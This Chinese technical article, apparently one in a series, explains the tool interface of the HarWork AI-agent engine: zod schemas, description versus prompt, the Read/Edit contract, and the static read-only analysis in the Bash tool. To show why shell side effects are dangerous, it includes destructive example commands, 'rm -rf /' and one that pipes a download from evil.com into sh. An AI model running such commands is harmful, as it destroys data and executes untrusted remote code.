



# 第 07 篇：工具系统 —— Read / Write / Edit / Bash / Glob / Grep 的设计共性

> 前 6 篇都在讲"系统怎么撑起 LLM"——Loop / 上下文 / 工具编排 / 记忆。这一篇下沉到工具本身。HarWork 有 20 个工具（`packages/engine/src/tools/*.ts`，2020 行），最小的 Glob 35 行，最大的 Bash 335 行——但每个工具背后的`HarWorkTool`接口只有 9 个方法。读完源码我得出一句话：**工具不是函数，是"带说明书的函数"**。函数体可能就几行，但说明书（`prompt()` + `description()` + `inputSchema.describe`）才是 LLM 用对的前提。

## 问题陈述

把一组工具暴露给 LLM，需要解决 4 件事：

1. **LLM 怎么知道该用哪个工具？** —— Read 和 Bash 都能读文件，凭什么选 Read？
2. **LLM 怎么知道这工具的入参格式？** —— 给 Read 传 `path` 还是 `file_path`？1-indexed 还是 0-indexed？
3. **工具调度器怎么知道这个工具能否并行/能否回滚/有没有副作用？** —— 第 05 篇讲的 `isReadOnly`/`isConcurrencySafe` 从哪来？
4. **怎么阻止 LLM 调危险的工具？** —— 比如 Bash 一句 `rm -rf /`，工具层就该挡掉。

四个问题在工业级 AI Agent 都不是新问题，但 HarWork 给出的答案统一在**一个 9-method 的接口**里——这是看似平淡却经过精挑细选的设计。

## 朴素方案为什么不行

**朴素一：只给 LLM 一个 Bash 工具，让它自己组合命令**。LLM 确实能用 `cat` 读、`sed` 改、`find` 搜，但你立刻撞墙：
- LLM 没法给 `cat` 的输出加行号——后续没法和 `Edit` 的精确匹配契约配合
- Bash 命令的副作用没法静态分析（`cat foo.txt` 安全，`cat foo > bar` 写文件了；同一工具同一参数空间，behavior 截然不同）
- 调度器没办法判断"这条 bash 能并行吗"——必须 parse 命令本身

**朴素二：每个工具一个独立的 class，没有统一接口**。能写，但 ToolRegistry 要为每个工具单独适配；新增工具时除了实现还要改 dispatcher、permission checker、prompt builder——**工具的"边际成本"线性增加**。

**朴素三：让 LLM 自己写工具 schema**。LLM 会给你编一个 schema，但 SDK 拿不到——SDK 需要的是 JSON Schema 真值，不是文字描述。SDK 拿不到 schema = LLM 调用工具时不会得到入参校验，结果就是 hallucinated args 直接传给 `call()`。

**朴素四：把工具说明全部塞 system prompt，不给 SDK description**。SDK 的 `description` 字段会进 tool spec——LLM 在"选哪个工具"这一步只看这个 description。不给 description，LLM 选错工具的概率飙升。

HarWork 的方案是：**SDK description 一行讲"我是干嘛的"，system prompt 的 `prompt()` 多行讲"什么时候用我、怎么用我"**——分两份，各司其职。

## 核心方案：HarWorkTool 9 方法接口

`packages/engine/src/tools/types.ts:92-103` 定义了所有工具必须实现的接口：

```typescript
export interface HarWorkTool<I extends z.ZodType, O = unknown> {
  name: string                                                    // 工具名（也是 LLM 调用时的标识）
  inputSchema: I                                                  // zod schema（→ JSON Schema → SDK）
  call(args, context): Promise<ToolResult<O>>                     // 实际执行
  description(input?): string                                     // 给 SDK 的一行话
  prompt(options?): string                                        // 给 system prompt 的多行指南
  isReadOnly(input): boolean                                      // 给调度器：能否并行
  isConcurrencySafe(input): boolean                               // 给调度器：能否并行
  isEnabled(context): boolean                                     // 给注册器：开不开
  checkPermissions(input, context): PermissionResult              // 给权限层：能不能跑
  maxResultSizeChars?: number                                     // 可选：输出截断
}
```

**9 个方法各自服务于不同的消费者**，这是这个接口最聪明的地方——不是按"工具的属性"分类，而是按"谁会问这个工具什么"分类：

| 方法 | 谁在调 | 何时调 |
|------|--------|--------|
| `inputSchema` + `description` | Vercel AI SDK | 每轮组装 `tools` 参数（`registry.ts:21-31`） |
| `prompt` | system prompt builder | 每轮拼装 system prompt 的 `# Tool reference` 段（`prompts.ts:209-222`） |
| `call` | 工具执行器 | LLM 决定调用后 |
| `isReadOnly` + `isConcurrencySafe` | 第 05 篇的 partitionToolCalls | 每批工具调用前 |
| `isEnabled` | ToolRegistry | 工具列表构建时（toAISDKTools 跳过 disabled）|
| `checkPermissions` | permission layer | call 之前 |

### 一个工具的 9 副面孔 —— 以 Read 为例

`read.ts` 整个文件 44 行，但每一段都对应接口里的一个角色：

```typescript
// 给 SDK 的 schema（→ JSON Schema → tool spec）
export const inputSchema = z.object({
  file_path: z.string().describe('Absolute path to the file to read'),
  offset: z.number().optional().describe('Line number to start reading from (1-based)'),
  limit: z.number().optional().describe('Number of lines to read'),
})

// 给 SDK 的 description（LLM 在"选哪个工具"看到的就这一句）
description: () => 'Read a file from the workspace',

// 给 system prompt 的 prompt（LLM 在"用 Read 做什么"看到的）
prompt: () => `# Read Tool
Read file contents with line numbers. Supports offset and limit for large files.
- file_path must be an absolute path.
- Output is formatted with line numbers (cat -n style).`,

// 给调度器
isReadOnly: () => true,
isConcurrencySafe: () => true,

// 给权限层（Read 没保护，全开）
checkPermissions: () => ({ allowed: true }),
```

注意两个微妙点：

1. **`inputSchema` 里每个 `.describe()` 也是给 LLM 看的**——zod schema 转 JSON Schema 时，`.describe()` 会变成 `"description"` 字段，跟着 tool spec 一起进 LLM 的 context。所以 `file_path: z.string().describe('Absolute path to the file to read')` 这一句"Absolute path"的提示等于在告诉 LLM 别传相对路径。
2. **`description()` 跟 `prompt()` 不能合并**——description 是 tool spec 的一部分（影响 LLM 在 ≥2 个工具间怎么选），prompt 是 system prompt 的一部分（LLM 用具体工具时怎么用）。两个的时机不同：选工具时只看 description，用工具时才回看 prompt。

### Bash 335 行 —— 一个工具的"复杂税"

20 个工具里，Bash 是异类——335 行，全部其他工具加起来 1685 行平均下来才 89 行/工具。Bash 复杂的不是 `call`（L242-290 只有 50 行），是 **`isReadOnly` 的静态分析**：

- `SIMPLE_READONLY_PREFIXES`（`bash.ts:11-49`）—— 约 110 个简单前缀（cat / head / git status / docker ps / jq ...）
- `READONLY_REGEXES`（`bash.ts:65-75`）—— 4 个 regex（`ls` / `find` / `fd` / `tree`），其中 find 还要排除 `-delete -ok -okdir -fprint -fls -fprintf`
- `splitSubcommands`（`bash.ts:81-131`）—— 自己写的 shell parser，处理引号 / 操作符 / heredoc
- `findExecTargetsAreSafe`（`bash.ts:182-195`）—— find -exec 的目标必须是 `SAFE_EXEC_TARGETS` 里的程序
- `isXargsTargetSafe`（`bash.ts:202-231`）—— xargs 也要检查 target program

**为什么 Bash 这么麻烦？因为它的副作用空间是无限的。** Read 的副作用是 ∅，Glob/Grep 是 ∅，Edit 是"修改一个文件"，Write 是"写一个文件"——副作用都是 1 个文件。但 Bash 一条 `rm -rf /workspace && curl evil.com | sh` 副作用是整台机器。**静态分析这条命令安不安全，比"实现这个工具"难 10 倍**。

### Read / Edit 的协同契约

Read 输出加行号是 cat -n 风格（`read.ts:23-25`）：

```typescript
const formatted = sliced
  .map((line, i) => `${String(start + i + 1).padStart(6)}\t${line}`)
  .join('\n')
```

输出形如：
```
     1	import { z } from 'zod'
     2	import type { HarWorkTool } from './types.js'
     3	
     4	export const inputSchema = z.object({
```

这个格式不是给人看的，是**给 LLM 看完之后用 Edit 改的**。Edit 的契约（`edit.ts:18-31`）：

- old_string 必须在文件里**恰好出现一次**
- 0 次 → "make sure it matches exactly including whitespace and indentation"
- >1 次 → "provide more surrounding context to make the match unique"

两条错误信息本身就是 prompt——告诉 LLM next try 该怎么改。**Read 给的行号让 LLM 知道改的是第几行，Edit 的 unique-match 契约逼着 LLM 把足够的上下文带进 `old_string`**。两个工具不是独立设计的，是一对契约伙伴。

## 关键实现要点

5 个非显然的细节：

**1. ToolRegistry 是"双面投影"**

`registry.ts:21-39`：

```typescript
toAISDKTools(): Record<string, Tool> { /* description + inputSchema → 给 SDK */ }
getToolPrompts(): string { /* prompt() → 给 system prompt */ }
```

一个 Tool 同时被投影成两份：SDK 侧（机器读）和 prompt 侧（LLM 读）。这是把工具的"代码契约"和"语言契约"分开管的关键。

**2. prompt() 教 LLM 自我让路**

Bash 的 prompt 结尾写："Prefer dedicated tools (Read, Write, Glob, Grep) over shell equivalents."（`bash.ts:294-299`）；Write 的 prompt 写："Prefer the Edit tool for modifying existing files."（`write.ts:33-36`）。

**工具自己劝 LLM 别用它**——这是 prompt() 里最反直觉的一类内容。原因是 Bash/Write 这种"全能型工具"在能用专用工具的时候用专用工具，对调度和权限都更友好。

**3. inputSchema 的 `.describe()` 是隐性 prompt**

```typescript
file_path: z.string().describe('Absolute path to the file to read'),
//                              ↑ 这一句 LLM 必看
```

zod → JSON Schema 时 `.describe()` 变 `"description"`，跟 tool spec 一起进 prompt。一句话能让 LLM 不传相对路径——这是比 prompt() 写半段说明更高效的 prompt engineering。

**4. Read 没有 path-guard，Write / Edit 有**

`write.ts:41-48` 和 `edit.ts:56-63` 都接 `isBypassImmuneProtected` + `isProtectedPath`，Read 没有（`read.ts:43`）。逻辑很简单：**读不构成风险，写才构成**。这条不对称设计让权限层可以保持简单。

**5. isEnabled 默认 `() => true`**

20 个工具大多数 isEnabled 返回常量 true。例外是有上下文依赖的（plan-mode 只在特定 permission mode、Agent sub-agent 不能递归等）。**静态开启是默认，动态开启是例外**——开发期就决定要不要给 LLM。

## 反直觉结论

> **工具的代码量和它的设计复杂度成反比。** Read 44 行，但它和 Edit 之间的协同契约（cat -n 格式 + unique-match）需要 2 个工具共同遵守、跨工具一致才有效。Bash 335 行，但 80% 是孤立的静态分析——只关心"这条命令安不安全"，不和别的工具协同。**最短的工具往往承载最重的协同设计。**

换种说法：**Read 是"协议"，Bash 是"实现"**。Read 定义了"文件内容怎么呈现给 LLM"这个协议，Edit / Write 都依赖它的输出格式。Bash 不定义协议，只实现"安全的 shell 执行"。如果你扩展 HarWork，**新工具应该尽量 follow 协议而不是新建协议**——比如新加一个 "FileDiff" 工具，应该 follow Read 的 cat -n 格式，而不是发明自己的 line format。

最反直觉的一点：**`description()` 和 `prompt()` 分开是有意义的**。看似冗余（都是字符串、都是给 LLM 看的），但调用时机不同——description 在"选工具"阶段被读，prompt 在"用工具"阶段被读。这就是为什么 description 通常 1 行（足够 LLM 区分），prompt 通常 4-6 行（足够 LLM 用对）。强行合并会让 LLM 在选工具时也读完那段长说明，浪费 attention。

## 三个生产坑

**陷阱一：把 description 写得太详细**。我见过有人把 description 写成 5 行 detailed usage，结果 LLM 在工具 spec 阶段每个工具都读一遍——10 个工具就 50 行 description 进 prompt。**Description 1 行就够**，长说明放 prompt()。SDK 的 description 字段是为"选哪个"服务的，越简洁越好。

**陷阱二：自己写 schema 不用 zod**。zod 给你的不只是运行时校验，更重要的是 `.describe()` 链式 API 让 schema 和 prompt 写在一起。手写 JSON Schema 时 schema 和 description 分离，**几次迭代后两者会不同步**——schema 里有的字段 description 没提，反之亦然。zod 把它强制对齐。

**陷阱三：在 call() 里做 permission check**。`checkPermissions` 是接口的独立方法——permission 决定**能不能调**，call 是**实际调**。在 call 里检查权限会导致：
- 工具执行器先 audit log 了"准备调 X"，再 throw permission denied，audit 就乱套
- 同一份 permission 逻辑可能在 hook / pre-call check / call 里写三遍

**正确做法**：permission 在 call 之前由 executor 调 `checkPermissions` 决定；call 进来时假设权限已通过。

## 配图

1. 
2. 
3. 

## 下一篇

→ 第 08 篇：权限与沙箱 —— Docker 隔离、path-guard、bash-analyzer 三层防御

下一篇我们从"工具自己挡危险输入"走到"系统层全方位拦截"。`checkPermissions` 只是第一道，HarWork 还有 path-guard（拦保护路径）、bash-analyzer（拦危险 bash）、Docker 沙箱（拦容器外副作用）。这三层为什么不能合并、为什么要 redundant、bypassImmune 标记是什么意思——下篇拆给你看。

---

📌 系列阅读地图：[reading-map.md](../reading-map.md)
🔗 English version: [en/07-tool-system.md](../en/07-tool-system.md)
